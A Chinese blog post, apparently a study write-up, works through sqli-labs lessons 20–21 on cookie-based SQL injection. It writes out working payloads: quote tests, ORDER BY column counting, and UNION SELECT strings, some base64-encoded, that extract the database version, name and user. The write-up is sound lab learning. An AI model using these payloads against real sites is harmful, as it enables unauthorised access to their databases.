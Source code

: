 ```yaml
---
title: sqli labs lesson 20~21 学习
date: 2016-08-31 17:05:21
tags:
- 渗透测试
- SQL 注入
categories: SQL 注入
---
```

为了找工作，前几天重温了下背包九讲，现在继续学习sql注入。
<!-- more -->
# 1 lesson 20 cookie注入-基于错误
此时，无论用户名、密码以什么格式输入，在后面加单引号'，双引号"，注释符#，页面都不会报错。

在页面上输入普通用户 用户名和密码之后，显示如下
![](https://ww4.sinaimg.cn/large/005CA6ZCgw1f7fkm2fcwxj30zn0a9q7f.jpg)

USER AGENT,cookie,username,password,id等信息显示在页面上

# 1.1 测试cookie
使用 EditThisCookie 插件查看cookie值
![](https://ww2.sinaimg.cn/large/005CA6ZCgw1f7fkqai00tj30fm0ardgv.jpg)

cookie 值为 Dumb，编辑cookie，观察页面显示：
在 Dumb 后面添加单引号 ', 即 cookie 值为 `Dumb'`
然后刷新页面
![](https://ww4.sinaimg.cn/large/005CA6ZCgw1f7fks7dy43j311r09d0xy.jpg)
出现错误：`Issue with your mysql: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''Dumb'' LIMIT 0,1' at line 1`


cookie 值：`Dumb"`
![](https://ww4.sinaimg.cn/large/005CA6ZCgw1f7fku8u59qj31000ggdma.jpg)
提示不太友好，就不解释了~~~~~
总之没有语法错误。

初步断定 <font color="red"> cookie 是以单引号' 闭合的</font>

cookie 值 | 页面情况
-- | --
`Dumb'#`  | 页面显示正常
`Dumb' order by 5#`  | 语法错误
`Dumb' order by 1#`  | 正常
`Dumb' order by 3#`  | 正常
`Dumb' order by 4#`  | 语法错误

<font color="red">说明sql语句有三个字段</font>

## 1.2 获取数据库信息
cookie 值：`' union select version(),database(),user()#`
![](https://ww4.sinaimg.cn/large/005CA6ZCgw1f7fl5zdbnkj310n0a2gqm.jpg)
页面显示
- 数据库版本：5.6.17
- 数据库名：security
- 用户名：root@localhost

其他数据库信息的获取方式，参加 [sqli labs lesson 1~4 学习](http://huirong.github.io/2016/08/24/sqli-labs-series-lesson1-4/) lesson 1

# 2 lesson 21 cookie注入-基于错误
## 2.1 测试
- 在页面输入 用户名：Dumb 密码：Dumb 后
- cookie 值：RHVtYg==
- 备注：可能是浏览器上看到的 cookie 值为：RHVtYg%3D%3D，因为 == 浏览器进行url编码后为 %3D

无论怎么使用 lesson 20 的方式修改cookie都没有用
使用 base 64 解密 cookie
![](https://ww1.sinaimg.cn/large/005CA6ZCgw1f7ii7z0ugzj30eq099dgi.jpg)
解密后的结果为 Dumb，说明cookie是经过base 64加密的。

## 2.2 闭合类型
将 `Dumb\` 进行base64加密
![](https://ww3.sinaimg.cn/large/005CA6ZCgw1f7iie2bw5uj30eq09zgmc.jpg)


然后EditThisCookie，将cookie修改为加密后的值
![](https://ww4.sinaimg.cn/large/005CA6ZCgw1f7iiepfhe8j30fm0cgwg4.jpg)


刷新页面
![](https://ww3.sinaimg.cn/large/005CA6ZCgw1f7iifome6uj311p08sgqk.jpg)

页面出现如下错误：
`Issue with your mysql: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''Dumb\') LIMIT 0,1' at line 1`

说明 sql 语句是以 `('')` 闭合的。

## 2.2 注入
将 `') union select database(),version(),version() #`  进行base64加密
![](https://ww4.sinaimg.cn/large/005CA6ZCgw1f7iij6a57wj30eq094t9s.jpg)

![](https://ww3.sinaimg.cn/large/005CA6ZCgw1f7iijffkzmj30fm0cg0ul.jpg)

![](https://ww4.sinaimg.cn/large/005CA6ZCgw1f7iijuq7ntj31160bkwk1.jpg)

页面上显示出数据库，MySQL版本等信息。
其他数据库信息的获取方式，参加 [sqli labs lesson 1~4 学习](http://huirong.github.io/2016/08/24/sqli-labs-series-lesson1-4/) lesson 1

# 3 后记
sqli labs 的学习就先告一段落，等找完工作，继续学习，顺便把中间没有博客的 lesson 18 和 lesson 19 补上。












